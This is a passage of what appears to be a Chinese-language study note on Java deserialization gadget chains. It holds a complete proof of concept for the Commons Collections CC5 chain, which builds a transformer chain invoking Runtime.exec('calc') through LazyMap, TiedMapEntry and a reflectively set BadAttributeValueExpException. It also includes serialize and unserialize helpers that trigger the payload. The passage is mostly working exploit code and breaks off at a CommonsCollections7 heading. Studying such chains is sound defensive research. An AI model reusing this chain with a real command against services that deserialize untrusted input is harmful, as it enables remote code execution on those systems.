 ```bash
public class CC5BadAttributeValueExpException {
    public static void main(String[] args) throws Exception{

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


//赋值操作
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        //设置私有属性val
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,tiedMapEntry);


//        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

## CommonsCollections7：
